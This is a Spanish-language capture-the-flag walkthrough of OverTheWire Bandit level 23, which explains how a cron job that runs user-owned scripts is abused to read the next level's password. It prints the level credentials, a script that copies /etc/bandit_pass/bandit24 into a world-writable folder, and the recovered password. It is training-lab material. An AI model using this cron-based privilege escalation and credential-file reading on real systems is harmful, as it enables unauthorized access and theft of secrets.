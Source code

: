 ```yaml
---
title: Bandit-23
published: true
---
```


## [](#header-1)Login

```bash
sshpass -p jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n \
ssh bandit23@bandit.labs.overthewire.org -p2220
```

## [](#header-1)Level Goal

```
A program is running automatically at regular intervals from cron,
the time-based job scheduler. Look in /etc/cron.d/ for the configuration
and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. 
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed,
so you may want to keep a copy around…

Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)
```

Otro reto más usando las tareas programadas de cron. Hacemos un cat al cron correspondiente:

```
cat cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Echamos un vistazo al script

```
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 
```

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Como podemos ver, si detecta un fichero cuyo propietario es bandit23, realizará
un timeout y luego ejecutará el fichero. Podemos aprovecharlo para ejecutar un
comando en un script bash

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/gorry/pass_bandit24.txt
```

Hay que tener en cuenta:

1.  Que el fichero bandit24.sh tenga permisos de ejecución
1.  Que el directorio donde copiará la contraseña tenga permiso de escritura

Para ello ejecutamos los comandos:

```
chmod +x /tmp/gorry/bandit24.sh
chmod 777 /tmp/gorry
```

Copiamos el fichero bandit24.sh (con permisos de ejecución)

```
bandit23@bandit:/tmp/gorry$ cp bandit24.sh /var/spool/bandit24/
```

Esperamos y hacemos un ls

```
bandit23@bandit:/tmp/gorry$ ls -l
total 8
-rwxrwxrwx 1 bandit23 root     74 Apr 26 13:24 bandit24.sh
-rw-r--r-- 1 bandit24 bandit24 33 Apr 26 13:29 pass_bandit24.txt
```

Hacemos un cat y vemos la pass del siguiente nivel:

```
bandit23@bandit:/tmp/gorry$ cat pass_bandit24.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

[Volver al archivo](archive)
